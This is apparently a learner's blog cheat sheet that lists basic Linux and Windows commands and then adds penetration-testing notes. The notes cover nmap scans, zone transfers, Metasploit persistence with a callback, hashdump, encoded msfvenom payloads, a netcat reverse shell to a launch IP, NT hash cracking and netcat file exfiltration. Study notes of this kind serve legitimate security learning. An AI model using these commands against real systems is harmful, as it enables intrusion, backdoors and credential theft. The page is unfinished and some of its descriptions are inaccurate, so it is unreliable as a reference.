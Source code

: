 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
	<strong>
		<li><code>C:\&gt; &lt;command&gt; /? </code></li>
		<li><code>root@kl~# &lt;command&gt; -h </code></li>
		<li><code>root@kl~# &lt;command&gt; --help </code></li>
		<li><code>root@kl~# man &lt;command&gt; </code></li>
		<li><code>root@kl~# apropos </code></li>
		<li><code>root@kl~# history </code></li>
		<li><code>root@kl~# hostname</code></li>
		<li><code>root@kl~# sudo </code></li>
		<li><code>root@kl~# whoami </code></li>
	</strong>
			<ul>
				<li>(print current user id and name)</li>	
			</ul>
	<strong>
		<li><code>root@kl~# date </code></li> 
		<li><code>C:\>  chdir </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pwd </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
	<strong>
		<li><code>root@kl~# jobs </code></li>
	</strong>
			<ul>
				<li>(list cronjobs)</li>
			</ul>
	<strong>
		<li><code>root@kl~# kill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pkill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>	
		<li><code> root@kl~# ps –aef </code></li>
	</strong>
			<ul>
				<li>(list processes status)</li>
			</ul>
	<strong>
		<li><code>C:\ tasklist </code></li>
	</strong>
</ul>

<h2>Files</h2>
<ul>
	<strong>
		<li><code>root@kl~# cp &lt;src&gt; &lt;dst&gt; </code></li>
	</strong>
			<ul>		
				<li>(copy)</li>
			</ul>
	<strong>
		<li><code>C:\> copy  &lt;src&gt; &lt;dst&gt; </code></li>
		<li><code>root@kl~# clear </code></li>
		<li><code>C:\> cls </code></li>
		<li><code>C:\> dir </code></li>
		<li><code>root@kl~# echo &lt;message&gt; </code></li>
	</strong>
			<ul>
				<li>(print to screen)</li>
			</ul>		
	<strong>
		<li><code>root@kl~# find –iname &lt;file&gt; </code></li>
		<li><code>C:\> findstr /i /s &lt;string&gt; *.txt </code></li>
	</strong>
			<ul>
				<li>(like grep for Windows)</li>
			</ul>
	<strong>
		<li><code>root@kl~# file </code></li>
	</strong>
			<ul>
				<li>(determine file type)</li>
			</ul>
	<strong>
		<li><code>C:\> dir \ &lt;file&gt; /b /s </code></li>
		<li><code>root@kl~# grep </code></li>
	</strong>
			<ul>
				<li>(search files for matching text)</li>
			</ul>
	<strong>
			<li><code>root@kl~# gzip </code></li>
	</strong>
			<ul>
				<li>(compress or decompress files)</li>
			</ul>
	<strong>
		<li><code>root@kl~# less </code></li>
	</strong>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul>
	<strong>
		<li><code>root@kl~# locate </code></li>
		<li><code>root@kl~# ls </code></li>
		<li><code>root@kl~# mkdir </code></li>
	</strong>
			<ul>
				<li>(new directory)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# mv &lt;src&gt; &lt;dst&gt; </code></li>
	</strong>
			<ul>
				<li>(move/rename a file)</li>
			</ul>
	<strong>
		<li><code>C:\>  move &lt;src&gt; &lt;dst&gt; </code></li>
		<li><code>root@kl~# rm </code></li> 
	</strong>
			<ul>
				<li>(remove files)</li>
			</ul>	
	<strong>
		<li><code>C:\> ren </code></li>
	</strong>
			<ul>
				<li>(renames file)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# umask </code></li>
	</strong>
			<ul>
				<li>(users file creation mask)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# uniq </code></li>
	</strong>
			<ul>
				<li>(uniquify files)</li>
			</ul>
	<strong>
		<li><code>root@kl~# vi/vim </code></li>
	</strong>
			<ul>
				<li>(the best text editor)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# wc </code></li>
	</strong>
			<ul>
				<li>(print byte, word and line counts)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# whereis </code></li>
	</strong>
			<ul>
				<li>(search $path, man pages and source files for program)</li>
			</ul>	
</ul>
		
<h2>Users</h2>
<ul>
<strong>
	<li><code>root@kl~# chgrp </code></li>
</strong>
		<ul>
			<li>(change group ownership)</li>
		</ul>	
<strong>
	<li><code>root@kl~# chmod </code></li>
</strong>	
		<ul>
			<li>(change access permissions)</li>
		</ul> 
<strong>
	<li><code>root@kl~# chown </code></li>
</strong>	
		<ul>
			<li>(change file owner and group)</li>
		</ul>	
<strong>
	<li><code>root@kl~# groupadd </code></li>
</strong>	
		<ul>
			<li>(add a user to a security group)</li>
		</ul>	
<strong>
	<li><code>root@kl~# passwd </code></li>
</strong>	
		<ul>
			<li>(modify user password)</li>
		</ul>	
<strong>
	<li><code>root@kl~# useradd </code></li>
</strong>	
		<ul>
			<li>(create new users)</li>
		</ul>	
<strong>
	<li><code>root@kl~# usermod </code></li>
</strong>	
		<ul>
			<li>(modify user account)</li>
		</ul>	
<strong>
	<li><code>root@kl~# users </code></li>
</strong>	
		<ul>
			<li>(list logged in users)</li>
		</ul>
</ul>

<h2>Networks</h2>
<ul>
<strong>
	<li><code>root@kl~# curl </code></li>
</strong>
		<ul>
			<li>(grab webpages)</li>
		</ul>
<strong>
	<li><code>root@kl~# dig </code></li>
</strong>
		<ul>
		<li>(DNS lookup)</li>
		</ul>
<strong>
	<li><code>root@kl~# ifconfig </code></li>
	<li><code>root@kl~# netstat -ano/-plant/-uplant </code></li>
</strong>
		<ul>
			<li>(networking connections)</li>
		</ul>
<strong>
	<li><code>root@kl~# nslookup </code></li>
</strong>
		<ul>
			<li>(query name servers)</li>
		</ul>
<strong>
	<li><code>root@kl~# ping </code></li>
	<li><code>root@kl~# ssh </code></li>
	<li><code>root@kl~# traceroute </code></li>
	<li><code>root@kl~# wget </code></li>
</strong>
		<ul>
			<li>(get web pages or files)</li>
		</ul>
 </ul>
 <h1> please excuse my mess...still formatting. Had to go! </h1>
 
<h2>Reconnaissance</h2>
<ul>
<li><code>nslookup &lt;domain&gt; </code></li>
	Discover target’s IP/FQDN domain
<li><code>nslookup &lt;ip&gt; </code></li>
<li><code>root@kl~# dig &lt;domain&gt;  </code></li>
	Find nameserver for known domain
<li><code>root@kl~# dig axfr @&lt;name server&gt; &lt;domain&gt; </code></li>
	perform a zone transfer to list hosts w/in domain
<li><code>root@kl~# traceroute &lt;ip&gt; </code></li>
		determine route to a host
<li><code>C:\> tracert &lt;ip&gt; </code></li>
		determine route to a host
<li><code>root@kl~# nmap –sV –O &lt;ip&gt; </code></li>
	scan for services and operating system
<li><code>root@kl~# nmap --script=vulns &lt;ip&gt; </code></li>
	scan for some old vulns
	
<h2>Gain and Maintain</h2>
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
